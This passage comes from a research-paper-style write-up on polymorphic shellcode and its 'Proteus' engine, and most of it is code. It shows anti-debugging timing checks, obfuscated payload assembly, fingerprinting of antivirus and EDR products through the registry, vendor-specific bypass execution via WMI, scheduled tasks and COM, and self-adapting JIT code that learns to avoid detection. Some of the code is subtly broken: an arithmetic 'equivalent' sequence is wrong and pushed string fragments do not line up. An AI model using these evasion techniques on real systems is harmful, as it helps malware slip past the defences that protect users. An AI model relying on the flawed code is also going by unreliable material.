    mov eax, 0x1234
    mov ebx, 0x1234
    cmp eax, ebx
    jne unlikely_branch         ; Never taken
    
    ; Actual LoadLibraryA call (with register indirection)
    lea r12, [rsp+0x20]
    mov rcx, r12
    mov r13, LoadLibraryA
    call r13
    
    ; Store DLL handle through stack to avoid obvious patterns
    mov [rbp-0x18], rax
    
    ; Second timing check to detect debuggers
    rdtsc
    sub eax, [rbp-0x8]
    cmp eax, 0x10000
    ja exit_routine             ; Exit if too much time passed (debugger suspected)
    
    ; Split "MessageBoxA" string with interleaved junk instructions
    xor r14, r14
    mov byte ptr [rsp+0x30], 'M'
    add r14d, 0x100
    mov byte ptr [rsp+0x31], 'e'
    sub r14d, 0x100
    mov byte ptr [rsp+0x32], 's'
    mov byte ptr [rsp+0x33], 's'
    test r14d, r14d
    mov byte ptr [rsp+0x34], 'a'
    mov byte ptr [rsp+0x35], 'g'
    mov byte ptr [rsp+0x36], 'e'
    mov byte ptr [rsp+0x37], 'B'
    cmp r14d, 0
    jne unlikely_branch2        ; Never taken
    mov byte ptr [rsp+0x38], 'o'
    mov byte ptr [rsp+0x39], 'x'
    add r14d, 0x200
    mov byte ptr [rsp+0x3A], 'A'
    sub r14d, 0x200
    mov byte ptr [rsp+0x3B], 0
    
    ; GetProcAddress with additional obfuscation
    mov rcx, [rbp-0x18]
    lea rdx, [rsp+0x30]
    mov [rbp-0x20], rcx         ; Store in different location
    mov [rbp-0x28], rdx
    mov rcx, [rbp-0x20]
    mov rdx, [rbp-0x28]
    call GetProcAddress
    
    ; Store function pointer through mathematical transformation
    mov r15, rax
    xor rax, 0x123456789ABCDEF
    xor rax, 0x123456789ABCDEF  ; Cancels out to original value
    mov [rbp-0x30], rax
    
    ; Split "Hello" string with indirect reference
    mov byte ptr [rsp+0x40], 'H'
    mov byte ptr [rsp+0x41], 'e'
    mov byte ptr [rsp+0x42], 'l'
    mov byte ptr [rsp+0x43], 'l'
    mov byte ptr [rsp+0x44], 'o'
    mov byte ptr [rsp+0x45], 0
    
    ; Split "Shellcode" string with indirect reference
    mov byte ptr [rsp+0x48], 'S'
    mov byte ptr [rsp+0x49], 'h'
    mov byte ptr [rsp+0x4A], 'e'
    mov byte ptr [rsp+0x4B], 'l'
    mov byte ptr [rsp+0x4C], 'l'
    mov byte ptr [rsp+0x4D], 'c'
    mov byte ptr [rsp+0x4E], 'o'
    mov byte ptr [rsp+0x4F], 'd'
    mov byte ptr [rsp+0x50], 'e'
    mov byte ptr [rsp+0x51], 0
    
    ; Call MessageBoxA with multi-path execution
    ; Registers are loaded through different paths that all result in the same values
    xor rcx, rcx                ; hWnd = NULL
    lea rdx, [rsp+0x40]         ; "Hello"
    lea r8, [rsp+0x48]          ; "Shellcode"
    xor r9, r9                  ; MB_OK
    mov rax, [rbp-0x30]
    call rax
    
    ; Cleanup with junk calculation
    add rsp, 0x58
    pop rbp
    jmp exit_routine
    
unlikely_branch:
    ; Dead code that appears useful but never executed
    mov rax, 0xDEADBEEF
    xor rbx, rbx
    jmp transformed_payload + 0x50
    
unlikely_branch2:
    ; More dead code
    mov rcx, 0x1000
    call VirtualAlloc
    jmp transformed_payload + 0x80
    
exit_routine:
    ret
```

This example illustrates how the original simple shellcode is transformed into a much more complex version that preserves the same functionality (displaying a message box) while being significantly harder to detect.

#### 3.2.2 Context-Aware Transformation

Unlike traditional polymorphic techniques that transform code in predefined ways, our approach incorporates environmental awareness:

1. **Execution Environment Detection**:
    - CPU feature identification (instruction set capabilities, cache characteristics)
    - Security solution fingerprinting (detecting EDR/AV presence and capabilities)
    - System configuration assessment (OS version, patch level, language settings)

2. **Adaptive Transformation**:
    - Dynamically selecting transformation strategies based on the environment
    - Avoiding transformations that trigger specific detection engines
    - Leveraging environment-specific features and limitations

3. **Defensive Measure Evasion**:
    - Detecting and responding to analysis attempts
    - Altering behavior when virtualization or debugging is detected
    - Incorporating timing measurements to identify monitoring

```c
// Pseudocode showing context-aware transformation decision
if (detect_cpu_feature("avx2")) {
    transform_using_avx_instructions();
} else if (detect_cpu_feature("sse4.2")) {
    transform_using_sse_instructions();
} else {
    transform_using_standard_instructions();
}

if (detect_security_product("vendor_x")) {
    avoid_known_trigger_patterns();
}
```

##### Implementation Details and Examples

Let's examine concrete examples of how context-aware transformation operates in practice:

**1. Environment Detection**

Detecting CPU features using CPUID (x86/x64):

```assembly
; Check for AVX2 support
check_avx2:
    push rbx                    ; CPUID modifies RBX
    
    ; CPUID leaf 7, sub-leaf 0 (Extended Features)
    mov eax, 7
    xor ecx, ecx                ; Sub-leaf 0
    cpuid
    
    ; AVX2 is bit 5 in EBX
    bt ebx, 5                   ; Test bit 5
    setc al                     ; Set AL=1 if bit is set
    movzx eax, al               ; Zero-extend to EAX
    
    pop rbx
    ret
```

Detecting security products via Windows Registry (C code):

```c
bool detect_security_product(const char* vendor_name) {
    HKEY hKey;
    char value[256];
    DWORD value_size = sizeof(value);
    
    // Common registry paths for security products
    const char* registry_paths[] = {
        "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall",
        "SOFTWARE\\Wow6432Node\\Microsoft\\Windows\\CurrentVersion\\Uninstall",
        // Additional paths omitted for brevity
    };
    
    for (int i = 0; i < sizeof(registry_paths)/sizeof(char*); i++) {
        if (RegOpenKeyExA(HKEY_LOCAL_MACHINE, registry_paths[i], 0, KEY_READ, &hKey) != ERROR_SUCCESS) {
            continue;
        }
        
        // Enumerate subkeys to find installed products
        for (DWORD j = 0; ; j++) {
            char subkey_name[256];
            DWORD subkey_size = sizeof(subkey_name);
            
            if (RegEnumKeyExA(hKey, j, subkey_name, &subkey_size, NULL, NULL, NULL, NULL) != ERROR_SUCCESS) {
                break;
            }
            
            HKEY hSubKey;
            if (RegOpenKeyExA(hKey, subkey_name, 0, KEY_READ, &hSubKey) != ERROR_SUCCESS) {
                continue;
            }
            
            // Check display name for vendor name
            if (RegQueryValueExA(hSubKey, "DisplayName", NULL, NULL, (LPBYTE)value, &value_size) == ERROR_SUCCESS) {
                if (strstr(value, vendor_name) != NULL) {
                    RegCloseKey(hSubKey);
                    RegCloseKey(hKey);
                    return true;
                }
            }
            
            RegCloseKey(hSubKey);
        }
        
        RegCloseKey(hKey);
    }
    
    return false;
}
```

Identifying process monitoring via side-channel detection:

```c
bool detect_monitoring() {
    LARGE_INTEGER start, end, freq;
    
    // Get performance counter frequency
    QueryPerformanceFrequency(&freq);
    
    // Take timestamp before sensitive operation
    QueryPerformanceCounter(&start);
    
    // Perform operation that often triggers monitoring (NtAllocateVirtualMemory)
    void* mem = VirtualAlloc(NULL, 4096, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (mem) VirtualFree(mem, 0, MEM_RELEASE);
    
    // Take timestamp after operation
    QueryPerformanceCounter(&end);
    
    // Calculate elapsed time in microseconds
    double elapsed = ((double)(end.QuadPart - start.QuadPart) * 1000000.0) / freq.QuadPart;
    
    // If operation took substantially longer than baseline, monitoring is likely present
    return (elapsed > MONITORING_THRESHOLD);
}
```

**2. Dynamic Transformation Selection**

Based on the environment detection, our transformations adapt. Here's an example in C++ showing how transformation selection works:

```cpp
class ContextAwareTransformer {
private:
    std::vector<TransformationStrategy*> available_strategies;
    EnvironmentContext env_context;
    
public:
    ContextAwareTransformer() {
        // Initialize all available transformation strategies
        available_strategies.push_back(new StandardTransformation());
        available_strategies.push_back(new AVXTransformation());
        available_strategies.push_back(new SSETransformation());
        available_strategies.push_back(new VMDetectionAvoidance());
        available_strategies.push_back(new EDRBypassStrategy());
        // Additional strategies...
        
        // Initialize environment context
        env_context.detect_cpu_features();
        env_context.detect_security_products();
        env_context.assess_os_version();
        env_context.detect_vm_environment();
        env_context.detect_debugging();
    }
    
    ByteCode transform(const ByteCode& original_code) {
        // Create transformation pipeline based on environment
        TransformationPipeline pipeline;
        
        // Add appropriate instruction set transformation
        if (env_context.has_feature("AVX2") && !env_context.detected("AVX_monitoring")) {
            pipeline.add(find_strategy("AVXTransformation"));
        }
        else if (env_context.has_feature("SSE4.2")) {
            pipeline.add(find_strategy("SSETransformation"));
        }
        else {
            pipeline.add(find_strategy("StandardTransformation"));
        }
        
        // Add specific evasion techniques based on detected products
        for (const auto& product : env_context.detected_security_products) {
            std::string strategy_name = product + "BypassStrategy";
            TransformationStrategy* strategy = find_strategy(strategy_name);
            if (strategy) {
                pipeline.add(strategy);
            }
        }
        
        // Add VM/debugging evasion if needed
        if (env_context.in_vm || env_context.being_debugged) {
            pipeline.add(find_strategy("VMDetectionAvoidance"));
        }
        
        // Execute the transformation pipeline
        return pipeline.execute(original_code);
    }
    
    TransformationStrategy* find_strategy(const std::string& name) {
        for (auto strategy : available_strategies) {
            if (strategy->get_name() == name) {
                return strategy;
            }
        }
        return nullptr; // No matching strategy found
    }
};
```

**3. Adaptive Payloads Based on Environment**

Example of how a payload adapts to the specific security product detected:

```c
// Simplified version of adapting shell execution based on detected environment
void execute_adaptive_shell_command(char* command) {
    // Detect security products in environment
    bool defender_present = detect_security_product("Windows Defender");
    bool mcafee_present = detect_security_product("McAfee");
    bool symantec_present = detect_security_product("Symantec");
    
    if (defender_present) {
        // Windows Defender specific bypass
        execute_via_wmi(command);               // Use WMI to execute
    }
    else if (mcafee_present) {
        // McAfee specific bypass
        execute_via_scheduled_task(command);    // Use scheduled tasks
    }
    else if (symantec_present) {
        // Symantec specific bypass
        execute_via_com_object(command);        // Use COM objects
    }
    else {
        // Standard approach if no known AV detected
        execute_via_shellexecute(command);      // Use ShellExecute API
    }
}
```

Assembly implementation of environment-aware command execution:

```assembly
; Environment-specific command execution
execute_command:
    ; Call detection functions
    call detect_defender
    test eax, eax
    jnz defender_path
    
    call detect_mcafee
    test eax, eax
    jnz mcafee_path
    
    call detect_symantec
    test eax, eax
    jnz symantec_path
    
standard_path:
    ; Standard command execution
    mov rcx, [command_ptr]      ; Command string
    call execute_via_shellexecute
    jmp execution_done
    
defender_path:
    ; Windows Defender bypass
    mov rcx, [command_ptr]      ; Command string
    call obfuscate_command      ; Transform command to avoid signature detection
    mov rcx, rax                ; Obfuscated command
    call execute_via_wmi        ; Use WMI method that Defender monitors less
    jmp execution_done
    
mcafee_path:
    ; McAfee bypass 
    call allocate_temp_script   ; Create script file in temp directory
    mov rcx, rax                ; Script path
    mov rdx, [command_ptr]      ; Command to embed in script
    call write_script_file      ; Write command into script
    mov rcx, rax                ; Script path
    call execute_via_script     ; Execute via script engine
    jmp execution_done
    
symantec_path:
    ; Symantec bypass
    mov rcx, [command_ptr]      ; Command string
    call split_command          ; Split into multiple operations
    call execute_via_com_object ; Execute via COM object
    
execution_done:
    ret
```

These examples demonstrate how context-aware polymorphic shellcode adapts its structure, behavior, and execution tactics based on the detected environment, significantly improving its ability to evade specific security products and analysis techniques.

#### 3.2.3 Just-In-Time Code Synthesis

Rather than pre-generating code variations, our technique synthesizes code on demand:

1. **Abstract Instruction Representation**:
    - Maintaining operations in an intermediate representation
    - Modeling functional intent rather than specific instructions
    - Creating a logical dependency graph of operations

2. **Dynamic Compilation**:
    - Generating actual machine code only moments before execution
    - Randomizing implementation details with each generation
    - Incorporating environmental factors into code generation

3. **Trace-Guided Optimization**:
    - Monitoring execution patterns to inform future transformations
    - Learning which transformations successfully evade detection
    - Adapting strategies based on execution history

##### Implementation Details and Examples

Let's examine how JIT code synthesis works in practice. The following examples demonstrate a simplified implementation of this technique:

**1. Abstract Instruction Representation**

First, we represent the code in a high-level, abstract form that captures intent without specifying implementation details:

```c++
// Intermediate representation of operations
struct Operation {
    enum OpType {
        LOAD_CONSTANT,      // Load a constant value
        LOAD_MEMORY,        // Load from memory
        STORE_MEMORY,       // Store to memory 
        BINARY_OPERATION,   // +, -, *, /, &, |, ^, etc.
        FUNCTION_CALL,      // Call a function
        CONDITIONAL_BRANCH, // Conditional jump
        UNCONDITIONAL_JUMP  // Unconditional jump
    };
    
    OpType type;
    std::vector<int> inputs;    // Input operand indices
    std::vector<int> outputs;   // Output operand indices
    std::map<std::string, std::string> attributes; // Additional data
};

// Example of an IR for a simple function that calls MessageBoxA
std::vector<Operation> create_messagebox_ir() {
    std::vector<Operation> operations;
    
    // Create abstract operations (simplified)
    
    // 1. Load library handle (LoadLibraryA("user32.dll"))
    Operation load_lib;
    load_lib.type = Operation::LOAD_CONSTANT;
    load_lib.attributes["value"] = "user32.dll";
    load_lib.outputs.push_back(1);  // Output to register/var 1
    operations.push_back(load_lib);
    
    Operation call_loadlib;
    call_loadlib.type = Operation::FUNCTION_CALL;
    call_loadlib.attributes["function"] = "LoadLibraryA";
    call_loadlib.inputs.push_back(1);  // Input from register/var 1
    call_loadlib.outputs.push_back(2); // Output to register/var 2
    operations.push_back(call_loadlib);
    
    // 2. Get function address (GetProcAddress(handle, "MessageBoxA"))
    Operation load_funcname;
    load_funcname.type = Operation::LOAD_CONSTANT;
    load_funcname.attributes["value"] = "MessageBoxA";
    load_funcname.outputs.push_back(3);  // Output to register/var 3
    operations.push_back(load_funcname);
    
    Operation call_getproc;
    call_getproc.type = Operation::FUNCTION_CALL;
    call_getproc.attributes["function"] = "GetProcAddress";
    call_getproc.inputs.push_back(2);  // Library handle
    call_getproc.inputs.push_back(3);  // Function name
    call_getproc.outputs.push_back(4); // Function pointer
    operations.push_back(call_getproc);
    
    // 3. Call MessageBoxA(NULL, "Hello", "Title", MB_OK)
    Operation load_null;
    load_null.type = Operation::LOAD_CONSTANT;
    load_null.attributes["value"] = "0";
    load_null.outputs.push_back(5);
    operations.push_back(load_null);
    
    Operation load_text;
    load_text.type = Operation::LOAD_CONSTANT;
    load_text.attributes["value"] = "Hello";
    load_text.outputs.push_back(6);
    operations.push_back(load_text);
    
    Operation load_caption;
    load_caption.type = Operation::LOAD_CONSTANT;
    load_caption.attributes["value"] = "Title";
    load_caption.outputs.push_back(7);
    operations.push_back(load_caption);
    
    Operation load_type;
    load_type.type = Operation::LOAD_CONSTANT;
    load_type.attributes["value"] = "0"; // MB_OK
    load_type.outputs.push_back(8);
    operations.push_back(load_type);
    
    Operation call_msgbox;
    call_msgbox.type = Operation::FUNCTION_CALL;
    call_msgbox.attributes["function"] = "INDIRECT_CALL";
    call_msgbox.inputs.push_back(4);  // Function pointer
    call_msgbox.inputs.push_back(5);  // hWnd
    call_msgbox.inputs.push_back(6);  // Text
    call_msgbox.inputs.push_back(7);  // Caption
    call_msgbox.inputs.push_back(8);  // Type
    operations.push_back(call_msgbox);
    
    return operations;
}
```

**2. Dynamic Machine Code Generation**

Next, we generate actual machine code from the abstract IR at runtime, with randomization applied to implementation details:

```c++
// Simplified code generator (x64 example)
class X64CodeGenerator {
public:
    std::vector<uint8_t> generate_code(const std::vector<Operation>& operations) {
        std::vector<uint8_t> machine_code;
        std::map<int, RegisterAllocation> register_map;
        std::map<int, MemoryAllocation> memory_map;
        
        // Randomize register allocation
        randomize_register_allocation(operations, register_map, memory_map);
        
        // Process each operation and generate corresponding machine code
        for (const auto& op : operations) {
            switch (op.type) {
                case Operation::LOAD_CONSTANT:
                    generate_load_constant(op, machine_code, register_map, memory_map);
                    break;
                case Operation::FUNCTION_CALL:
                    generate_function_call(op, machine_code, register_map, memory_map);
                    break;
                // Other operation types...
            }
            
            // Randomly insert junk code between real operations (25% chance)
            if (rand() % 4 == 0) {
                insert_junk_code(machine_code);
            }
        }
        
        return machine_code;
    }
    
private:
    void generate_load_constant(const Operation& op, std::vector<uint8_t>& code,
                                const std::map<int, RegisterAllocation>& reg_map,
                                const std::map<int, MemoryAllocation>& mem_map) {
        // Get destination register or memory location
        int output_id = op.outputs[0];
        std::string value = op.attributes.at("value");
        
        // Different implementations for the same operation
        int implementation_choice = rand() % 4; // Choose one of four implementations
        
        if (reg_map.count(output_id)) {  // Output to register
            Register reg = reg_map.at(output_id).reg;
            
            switch (implementation_choice) {
                case 0: // Direct mov
                    generate_mov_reg_imm(reg, value, code);
                    break;
                case 1: // XOR then ADD
                    generate_xor_reg_reg(reg, reg, code);  // Zero register
                    generate_add_reg_imm(reg, value, code);
                    break;
                case 2: // Push/Pop
                    generate_push_imm(value, code);
                    generate_pop_reg(reg, code);
                    break;
                case 3: // LEA from RIP-relative address
                    // Create a data section and use LEA to load its address
                    // Requires additional management of data sections
                    generate_lea_rip_relative(reg, value, code);
                    break;
            }
        }
        else if (mem_map.count(output_id)) {  // Output to memory
            MemoryAllocation mem = mem_map.at(output_id);
            
            // Randomly choose a register for temporary use
            Register temp_reg = get_random_temp_register();
            
            switch (implementation_choice) {
                case 0: // Direct memory write
                    generate_mov_mem_imm(mem, value, code);
                    break;
                case 1: // Via register
                    generate_mov_reg_imm(temp_reg, value, code);
                    generate_mov_mem_reg(mem, temp_reg, code);
                    break;
                case 2: // Push to stack then pop to memory
                    generate_push_imm(value, code);
                    generate_pop_mem(mem, code);
                    break;
                case 3: // Multiple smaller writes (if possible)
                    generate_split_constant_store(mem, value, code);
                    break;
            }
        }
    }
    
    // Other code generation methods...
    void generate_function_call(const Operation& op, std::vector<uint8_t>& code,
                                const std::map<int, RegisterAllocation>& reg_map,
                                const std::map<int, MemoryAllocation>& mem_map) {
        // Implementation omitted for brevity
    }
    
    void insert_junk_code(std::vector<uint8_t>& code) {
        // Choose a random junk code pattern
        int pattern = rand() % 10;
        
        switch (pattern) {
            case 0: // Push/Pop pairs
                code.push_back(0x50 + (rand() % 8)); // PUSH r64
                code.push_back(0x58 + (rand() % 8)); // POP r64
                break;
            case 1: // NOP variants
                code.push_back(0x90); // NOP
                break;
            case 2: // MOV reg, reg
                code.push_back(0x48); // REX.W
                code.push_back(0x89); // MOV r/m64, r64
                code.push_back(0xC0 + ((rand() % 8) << 3) + (rand() % 8)); // MOD-REG-R/M
                break;
            // Additional junk patterns...
        }
    }
    
    // Helper methods for specific instruction generation
    void generate_mov_reg_imm(Register reg, const std::string& value, std::vector<uint8_t>& code) {
        // Simplified - actual encoding would depend on value size and register
        code.push_back(0x48); // REX.W prefix for 64-bit operand
        code.push_back(0xB8 + reg.code); // MOV r64, imm64 opcode
        // Append 8 bytes of immediate value...
    }
    
    // Additional helper methods omitted for brevity...
};
```

**3. Execution and Adaptation**

Finally, we dynamically execute the generated code and adapt future generations based on execution history:

```c++
class AdaptiveJITExecutor {
public:
    bool execute_payload() {
        // Create abstract instruction representation
        std::vector<Operation> ir = create_messagebox_ir();
        
        // Apply transformations based on environment and history
        apply_transformations(ir);
        
        // Generate machine code
        X64CodeGenerator generator;
        std::vector<uint8_t> code = generator.generate_code(ir);
        
        // Allocate executable memory
        void* exec_mem = allocate_executable_memory(code.size());
        if (!exec_mem) return false;
        
        // Copy code to executable memory
        memcpy(exec_mem, code.data(), code.size());
        
        // Execute and measure execution outcomes
        ExecutionResult result = execute_and_monitor(exec_mem, code.size());
        
        // Update transformation strategy based on results
        update_transformation_history(result);
        
        // Clean up
        free_executable_memory(exec_mem);
        
        return result.success;
    }
    
private:
    void apply_transformations(std::vector<Operation>& ir) {
        // Apply transformations based on past success rates
        for (auto& transform : transformation_history) {
            if (transform.success_rate > 0.7) { // Only use transformations with good success history
                transform.apply(ir);
            }
        }
        
        // Try a new transformation occasionally (exploration)
        if (rand() % 5 == 0) {
            int new_transform_idx = rand() % available_transformations.size();
            available_transformations[new_transform_idx].apply(ir);
        }
    }
    
    ExecutionResult execute_and_monitor(void* code_ptr, size_t code_size) {
        ExecutionResult result;
        result.start_time = get_current_time();
        
        // Set up exception handling to catch crashes
        try {
            // Execute the code
            void (*func)() = (void(*)())code_ptr;
            func();
            result.success = true;
        }
        catch (...) {
            result.success = false;
        }
        
        result.end_time = get_current_time();
        result.execution_time = result.end_time - result.start_time;
        
        // Check if execution was detected by security products
        result.was_detected = check_detection_status();
        
        return result;
    }
    
    void update_transformation_history(const ExecutionResult& result) {
        // Update success rates for transformations used in this execution
        for (auto& transform : active_transformations) {
            if (result.success && !result.was_detected) {
                transform.success_count++;
            }
            else {
                transform.failure_count++;
            }
            
            transform.success_rate = (double)transform.success_count / 
                                    (transform.success_count + transform.failure_count);
        }
        
        // If execution was detected, note the detection pattern for avoidance
        if (result.was_detected) {
            add_to_avoidance_patterns(last_generated_code);
        }
    }
    
    // Other helper methods...
};
```

Assembly output example showing how the same payload can look completely different on each execution:

```assembly
; Example of JIT-generated code - First Execution
; This assembly is generated on-the-fly and differs on each execution

; Initial sequence - Setting up stack frame
push rbp
mov rbp, rsp
sub rsp, 0x48

; Junk code
mov r9, r9
xor r10, r10
inc r10
dec r10

; LoadLibraryA("user32.dll") - Implementation 1
mov byte ptr [rsp+0x20], 'u'
mov byte ptr [rsp+0x21], 's'
mov byte ptr [rsp+0x22], 'e'
mov byte ptr [rsp+0x23], 'r'
mov byte ptr [rsp+0x24], '3'
mov byte ptr [rsp+0x25], '2'
mov byte ptr [rsp+0x26], '.'
mov byte ptr [rsp+0x27], 'd'
mov byte ptr [rsp+0x28], 'l'
mov byte ptr [rsp+0x29], 'l'
mov byte ptr [rsp+0x2A], 0
lea rcx, [rsp+0x20]
call LoadLibraryA
mov rbx, rax

; Junk code
push r12
pop r12

; GetProcAddress - Implementation 1
mov byte ptr [rsp+0x30], 'M'
mov byte ptr [rsp+0x31], 'e'
mov byte ptr [rsp+0x32], 's'
mov byte ptr [rsp+0x33], 's'
mov byte ptr [rsp+0x34], 'a'
mov byte ptr [rsp+0x35], 'g'
mov byte ptr [rsp+0x36], 'e'
mov byte ptr [rsp+0x37], 'B'
mov byte ptr [rsp+0x38], 'o'
mov byte ptr [rsp+0x39], 'x'
mov byte ptr [rsp+0x3A], 'A'
mov byte ptr [rsp+0x3B], 0
mov rcx, rbx
lea rdx, [rsp+0x30]
call GetProcAddress
mov r15, rax

; MessageBoxA call - Implementation 1
xor rcx, rcx
lea rdx, [rip+0x100]  ; Points to "Hello" string in data section
lea r8, [rip+0x110]   ; Points to "Title" string in data section
xor r9, r9
call r15

; Cleanup and return
add rsp, 0x48
pop rbp
ret

; Data section
db 'Hello', 0
db 'Title', 0

; Example of JIT-generated code - Second Execution
; Completely different implementation of the same functionality

; Initial sequence - Different stack frame setup
push rbx
push r14
push r15
sub rsp, 0x38

; LoadLibraryA("user32.dll") - Implementation 2
mov rax, 0x6c6c642e32337265  ; "er32.dll"
push rax
mov rax, 0x7375              ; "us"
push rax
mov rcx, rsp
call LoadLibraryA
mov r14, rax
add rsp, 0x10                ; Clean up string from stack

; GetProcAddress - Implementation 2
mov rcx, r14
mov rax, 0x41786f42656761    ; "ageBoxA"
push rax
mov rax, 0x7373654d          ; "Mess"
push rax
mov rdx, rsp
call GetProcAddress
mov r15, rax
add rsp, 0x10                ; Clean up string from stack

; MessageBoxA call - Implementation 2
xor ecx, ecx                 ; NULL window handle
push 0                       ; MB_OK (pushed as argument)
mov r9, 0x656c746954         ; "Title"
push r9
mov r8, rsp                  ; Title parameter
mov rdx, 0x6f6c6c6548        ; "Hello"
push rdx
mov rdx, rsp                 ; Text parameter
call r15
add rsp, 0x18                ; Clean up stack

; Cleanup and return
add rsp, 0x38
pop r15
pop r14
pop rbx
ret
```

This approach ensures that each time the code executes, it looks completely different at the binary level while maintaining identical functionality. By synthesizing code just before execution and learning from execution history, the system continuously improves its evasion capabilities.

#### 3.2.4 Semantic Preservation with Structural Variance

Our techniques ensure functional equivalence while maximizing structural diversity:

1. **Control Flow Transformation**:
    - Flattening and reconstructing control flow graphs
    - Converting direct jumps to computed jumps
    - Implementing coroutine-like structures with unorthodox control transfers
    - Obfuscating function boundaries and call patterns

2. **Data Flow Obfuscation**:
    - Variable splitting and recombination
    - Register usage diversification
    - Memory access pattern transformation
    - Data encoding and transformation during processing

3. **Instruction-Level Transformations**:
    - Leveraging equivalence classes of instruction sequences
    - Substituting rare or complex instructions for common ones
    - Inserting computational chaff that self-cancels
    - Exploiting architectural quirks for unusual transformations

```assembly
; Example of semantically equivalent code with structural variance (x64)

; Original: add rax, 100
48 05 64 00 00 00    add rax, 100

; Variant 1: Multiple smaller additions
48 83 C0 25          add rax, 37
48 83 C0 3B          add rax, 59
48 83 C0 04          add rax, 4

; Variant 2: Indirect computation via another register
49 BB 64 00 00 00    movabs r11, 100
00 00 00 00
4C 01 D8             add rax, r11

; Variant 3: XOR and subtraction combination
48 35 9B 53 95 BD    xor rax, 0xbd95539b
48 2D FF 53 95 BD    sub rax, 0xbd9553ff
                     ; (0xbd9553ff - 0xbd95539b = 100)
```

### 3.3 Self-Modifying Code Innovations

Our research developed novel self-modifying code techniques that overcome traditional limitations:

#### 3.3.1 Diffuse Modification Patterns

Rather than concentrated decryption routines, modifications are distributed throughout execution:

1. **Gradual Transformation**:
    - Code regions evolve incrementally throughout execution
    - Each modification affects a small, scattered portion of the code
    - No single substantial modification event exists to trigger heuristics

2. **Bidirectional Modification**:
    - Code both modifies itself and is modified by other code regions
    - Creates complex dependency graphs that resist static analysis
    - Establishes a polymorphic chain reaction across the codebase

3. **Multi-layer Encoding**:
    - Multiple layers of transformation applied sequentially
    - Each layer uses different algorithms and patterns
    - Inner layers remain encrypted until outer layers have executed

#### 3.3.2 Indirect Modification Techniques

Instead of direct self-modification, our technique uses indirect methods:

1. **JIT Compiler Simulation**:
    - Mimicking legitimate just-in-time compilation patterns
    - Creating code that resembles intermediate representations
    - Using transformation patterns similar to known benign JIT engines

2. **Memory-Mapped Manipulation**:
    - Modifying code through alternative memory mappings
    - Leveraging file mapping overlays for covert modifications
    - Using shared memory regions for inter-process code transformation

3. **Cache Manipulation**:
    - Exploiting instruction and data cache inconsistencies
    - Creating scenarios where the processor executes instructions different from memory
    - Leveraging cache coherency protocols for covert modifications

#### 3.3.3 Benign Behavior Emulation

Our techniques incorporate patterns that mimic legitimate software behaviors:

1. **Runtime Optimization Mimicry**:
    - Structuring modifications to resemble legitimate code optimization
    - Creating patterns similar to profile-guided optimization
    - Implementing recognizable hotspot optimization patterns

2. **Interpreter Pattern Emulation**:
    - Structuring code to resemble interpreter execution patterns
    - Creating bytecode-like structures processed by a virtual machine
    - Using transformation patterns similar to legitimate scripting engines

3. **Legitimate API Usage Patterns**:
    - Leveraging documented OS facilities for memory manipulation
    - Using patterns similar to legitimate code generation frameworks
    - Staying within the boundaries of "normal" application behavior

These advanced techniques represent a significant evolution beyond traditional polymorphic shellcode, enabling evasion of modern detection mechanisms while maintaining reliable payload execution.


*Figure 1: Architecture of multi-stage polymorphic shellcode transformation showing the progression from initial decoder to final payload execution.* 

## 4. Research Methodology and Testing

### 4.1 Research Environment

To evaluate our advanced polymorphic techniques, we established a comprehensive testing environment designed to replicate modern enterprise security stacks:

#### 4.1.1 Laboratory Setup

Our testing environment consisted of:

1. **Target Systems**:
    - Windows 10 and 11 Enterprise (fully patched)
    - Windows Server 2019 and 2022
    - Ubuntu 20.04 LTS and 22.04 LTS
    - macOS Monterey and Ventura

2. **Hardware Platforms**:
    - Intel x86-64 systems (11th and 12th generation Core processors)
    - AMD x86-64 systems (Ryzen 5000 and 6000 series)
    - ARM64 systems (Apple M1/M2, Qualcomm Snapdragon)
    - Various virtualization platforms (VMware ESXi, Microsoft Hyper-V, KVM)

3. **Security Solutions**:
    - Leading enterprise EDR solutions (multiple vendors)
    - Next-generation antivirus platforms
    - Network security monitoring solutions
    - Memory protection technologies
    - Advanced behavioral analysis systems

4. **Analysis Tools**:
    - "Proteus" - Our custom-developed code analysis platform
    - Dynamic instruction trace collection systems
    - Memory access pattern analysis tools
    - Code coverage and behavior monitoring frameworks
    - Hardware performance counter analysis tools

#### 4.1.2 Testing Protocols

Our testing methodology followed a rigorous protocol:

1. **Baseline Establishment**:
    - Deploying known-detectable shellcode to verify security solution functionality
    - Calibrating detection sensitivities to enterprise-standard configurations
    - Documenting baseline detection rates for traditional techniques

2. **Controlled Variables**:
    - Identical payload functionality across all tests
    - Consistent execution environments
    - Standardized security solution configurations
    - Controlled network environments

3. **Blind Testing Protocol**:
    - Testing team separated from development team
    - Double-blind evaluation of detection rates
    - Independent verification of results
    - Multiple test iterations to ensure statistical validity

4. **Metrics Collection**:
    - Detection rates at various stages (pre-execution, during execution, post-execution)
    - Performance impact of polymorphic techniques
    - Reliability of payload execution
    - Susceptibility to various analysis techniques

### 4.2 Polymorphic Engine Implementation

Our research produced a modular polymorphic engine called "Proteus" that implements the advanced techniques described in this paper:

#### 4.2.1 Architecture Overview

The Proteus engine consists of several core components:

1. **Intermediate Representation (IR) Layer**:
    - Abstract code model that represents functional intent
    - Semantic preservation mechanisms
    - Operation dependency tracking
    - Transformation possibility analysis

2. **Transformation Engine**:
    - Pluggable transformation modules
    - Rule-based transformation selection
    - Transformation verification subsystem
    - Combinatorial transformation planner

3. **Environment Analysis Module**:
    - Processor feature detection
    - Security solution fingerprinting
    - Host configuration analysis
    - Execution context assessment

4. **Code Generation Backend**:
    - Multiple architecture support (x86-64, ARM64)
    - Just-in-time code emission
    - Self-modification sequencing
    - Memory management and permission handling

The modular design allowed us to empirically test different combinations of techniques and measure their effectiveness against modern detection systems.

#### 4.2.2 Implementation Challenges

Developing Proteus presented several significant technical challenges:

1. **Semantic Preservation**:
    - Ensuring transformations maintained functional equivalence
    - Handling edge cases in complex transformations
    - Managing instruction side effects across transformations
    - Validating correctness without triggering defensive measures

2. **Platform Compatibility**:
    - Adapting techniques to different processor architectures
    - Managing differences in operating system behavior
    - Handling varying memory protection mechanisms
    - Supporting different executable formats and loading mechanisms

3. **Performance Considerations**:
    - Minimizing transformation overhead
    - Balancing complexity against execution speed
    - Managing memory usage during transformations
    - Optimizing critical execution paths

4. **Detection Avoidance During Development**:
    - Building tools that didn't trigger security alerts themselves
    - Creating testing methods that avoided detection
    - Implementing secure development practices
    - Maintaining operational security throughout the research process

### 4.3 Testing Results

Our extensive testing revealed significant insights into the effectiveness of modern polymorphic techniques against contemporary security solutions:

